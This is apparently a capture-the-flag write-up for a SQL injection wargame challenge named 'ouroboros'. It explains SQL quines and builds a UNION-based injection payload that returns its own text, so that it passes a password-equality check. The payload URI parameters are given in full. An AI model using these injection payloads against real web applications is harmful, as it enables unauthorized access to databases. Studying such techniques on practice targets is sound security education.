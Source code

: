 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 30
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/1484f622-d41c-4263-9655-405d71ed15d5)

We are provided with the SQL query:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='{$_GET[pw]}'
```

If `$result['pw']` is equal `$_GET['pw']`, the challenge is solved.

If we provide the following URI parameter:

```
?pw=' UNION SELECT 1 -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT 1 -- -'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/33c02c9b-464c-4920-b0aa-4d463a1bc01c)

In this case the `$result['pw']` and `$_GET['pw']` differ as follows:

```
$result['pw']: 1
$_GET['pw']: ' UNION SELECT 1 -- -
```

In order to make them the same, we have to use a [Quine](https://en.wikipedia.org/wiki/Quine_(computing)) program.

&nbsp;

## Quine

A Quine is a program that outputs its own souce code without having access to it.
An example of a SQL Quine is:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine',
Char(34),Char(39)),Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine')
AS Quine 
```
### Initial string

```sql
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine'
```
### First replacement

```sql
-- - SELECT Replace( -- -
Replace( 
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine', 
Char(34), 
Char(39)
)
-- - , Char(36), 'SELECT REPLACE(REPLACE("$",Char(34),Char(39)),Char(36),"$") AS Quine') AS Quine -- -
```

Replace all occurrences of `Char(34)` (double quote `"` Character) with `Char(39)` (single quote `'` Character):

```sql
-- - SELECT Replace( -- -
'SELECT Replace(Replace(\'$\',Char(34),Char(39)),Char(36),\'$\') AS Quine'
-- - , Char(36), 'SELECT REPLACE(REPLACE("$",Char(34),Char(39)),Char(36),"$") AS Quine') AS Quine -- -
```
### Second replacement

```sql
-- - SELECT -- -
Replace(
'SELECT Replace(Replace('$',Char(34),Char(39)),Char(36),'$') AS Quine', 
Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine'
)
-- - AS Quine -- -
```

Replace all occurrences of `Char(36)` (dollar sign `$` Character) with the original string:

```sql
-- - SELECT -- -
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine\',
Char(34),Char(39)),Char(36),
\'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine\')
AS Quine'
-- - AS Quine -- -
```
### Putting it All Together

The final result of the query is the string after both replacements, as follows:

```sql
SELECT
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine\',
Char(34), Char(39)), Char(36),
\'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine\')
AS Quine'
AS Quine
```

When this SQL query is executed, it will produce a single column named `Quine` containing the following text:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine',
Char(34), Char(39)), Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine')
AS Quine
```

Thus, we can see how the query repeats itself.

&nbsp;
## Modified Quine

```sql
' UNION SELECT Replace(Replace(
'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$")%23',
Char(34),Char( 39)),Char(36), 
'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$")%23')
%23
```
### First replacement

```sql
-- - ' UNION SELECT Replace( -- -
Replace(
'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$")%23',
Char(34),
Char(39)
)
-- -,Char(36),'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$")%23')%23 -- -
```

Replace all occurrences of `Char(34)` (double quote `"` Character) with `Char(39)` (single quote `'` Character):

```sql
-- - ' UNION SELECT Replace( -- -
'\' UNION SELECT Replace(Replace(\'$\',Char(34),Char(39)),Char(36),\'$\')%23'
-- -,Char(36),'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$")%23')%23 -- -
```
### Second replacement

```sql
-- - ' UNION SELECT -- -
Replace(
'\' UNION SELECT Replace(Replace('$',Char(34),Char(39)),Char(36),'$')%23',
Char(36),
'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$")%23')
-- - %23 -- -
```

Replace all occurrences of `Char(36)` (dollar sign `$` Character) with the original string:

```sql
-- - ' UNION SELECT -- -
'\' UNION SELECT Replace(Replace(
\'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$")%23\'
,Char(34),Char(39)),Char(36),
\'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$")%23\'
)%23'
-- - %23 -- -
```
### Putting it all together

The final result of the query is the string after both replacements, as follows:

```sql
' UNION SELECT 
\'\' UNION SELECT Replace(Replace(
\'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$")%23\'
,Char(34),Char(39)),Char(36),
\'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$")%23\'
)%23'
%23
```

When this SQL query is executed, it will return the following text:

```sql
' UNION SELECT Replace(Replace(
'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$")%23',
Char(34),Char(39)),Char(36),
'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$")%23'
)%23
```

We have successfully managed to create a Quine to solve this challenge.

&nbsp;

Now, we have to implement this for the challenge.
We will have to modify this Quine to the following:

```sql
UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -',Char(34),Char( 39)),Char(36),'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -') -- -
```

If we provide the following URI parameter:

```
?pw=' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -',Char(34),Char( 39)),Char(36),'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -') -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -',Char(34),Char( 39)),Char(36),'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -') -- -'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/2022ca1c-e568-4989-aa51-186eaacd6810)
